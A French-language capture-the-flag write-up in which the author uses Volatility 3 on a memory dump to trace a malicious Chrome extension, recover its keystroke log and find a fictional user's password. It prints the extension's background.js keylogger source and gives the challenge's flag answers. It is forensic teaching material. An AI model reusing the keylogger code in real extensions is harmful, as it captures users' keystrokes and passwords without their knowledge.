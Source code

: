 # Stealth Invasion
### Selene's normally secure laptop recently fell victim to a covert attack. Unbeknownst to her, a malicious Chrome extension was stealthily installed, masquerading as a useful productivity tool. Alarmed by unusual network activity, Selene is now racing against time to trace the intrusion, remove the malicious software, and bolster her digital defenses before more damage is done.

Lorsque que nous ouvrons le challenge, on est directement confronté à un fichier **memdump.elf**. Il n'y a pas à chercher très loin ce qu'il faut faire.

Je lance alors volatility3, puis j'éxécute : `python3 vol.py -f memdump.elf windows.info` pour obtenir quelques informations basiques.

![imageinfo](https://github.com/user-attachments/assets/55e85d2d-3a48-4bc0-a0b2-0f6d6c2c2456)

### Flag 1 : What is the PID of the original Google Chrome process ?

Ici, une simple commande :
```bash
python3 vol.py -f memdump.elf windows.pslist | grep 'chrome.exe'
``` 
Nous permet d'avoir cela : 

![image chrome](https://github.com/user-attachments/assets/1d74d818-e5be-40cd-865b-9ed4c2b8e3a8)

### Flag 2 : What is the only folder on the Desktop ?

Cette fois on fouille un peu dans les fichiers avec :
```bash 
python3 vol.py -f memdump.elf windows.filescan | grep '\Desktop'
``` 
Pour trouver : 

![desktop](https://github.com/user-attachments/assets/a324da96-43e1-44f2-9ec3-ebef76df7d24)

### Flag 3 : What is the Extention's ID ?

Pour trouver l'ID de l'extension, il suffit de regarder dans le dossier "Default" de Google Chrome ou tout les IDs d'extensions sont stockés. On fait ça avec 
```bash
python3 vol.py -f memdump.elf windows.filescan | grep '\Users\selene\AppData\Local\Google\Chrome\User Data\Default\'
```
![id](https://github.com/user-attachments/assets/29b52914-ea50-4771-b623-3add44fa8266)

### Flag 4 : After examining the malicious extention's code, what is the log filename in which the datais stored ?

Bon, pour celui la, on pourrait dump l'extension pour l'étudier, mais étant donné que la commande d'avant nous à révéler un fichier `000003.log`, il ne faut pas vraiment chercher plus loin que ça.

### Flag 5 : What is the URL the user navigated to ?

Maintenant que nous savons ou est le fichier de log, nous pouvons le dump.
```bash
python3 vol.py -f memdump.elf windows.dumpfiles –virtaddr 0x708caba14d0 
```
![logg](https://github.com/user-attachments/assets/887d8bc8-a817-45f2-be3f-db036c1fe9d1)
Mais le fichier étant difficilement lisible, j’ai directement dump le fichier History
de Google  
![history google](https://github.com/user-attachments/assets/818eda20-ef27-4354-a759-c8078fcc69d1)
Le fichier étant une database, pour voir la dernière URL il suffit juste de faire une simple requête SQL : 
```sql
SELECT url, title, visit_count, last_visit_time FROM urls ORDER BY last_visit_time DESC;
```
Ou alors simplement de lire le fichier avec DB Browser  
![last url](https://github.com/user-attachments/assets/81a67d84-0fe4-4acc-a650-b1ed4b9bf2d9)

### Flag 6 : What is the password of selene@rangers.eldoria.com ?
Il est temps de plongé plus profondément dans cet extension malfaisante. On va dump tout ce qui la concerne pour analyser tout ça.  
![dumpaa](https://github.com/user-attachments/assets/552d1745-f44f-461a-9a2b-a4dac9074d04)
![flag6num2](https://github.com/user-attachments/assets/498c9a01-67dd-429d-9f05-c459f5eb441b)
 

Après analyse, on voit que le fichier background.js est un **keylogger** qui ajoute `\r\n` dans les logs à chaque fois que quelque chose est copié ou que la touche entrée est préssé : 
```javascript
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
On dump alors le fichier de log, un peu de tri pour le rendre lisible plus facilement, et puis :   
![log file](https://github.com/user-attachments/assets/b26627c4-e280-447c-9d05-7bbb54392511)

On voit finalement le mot de passe **`clip-mummify-proofs`** à la fin du fichier.

Et avec ça, cela nous fait 6/6 flags. Donc le challenge est complété !
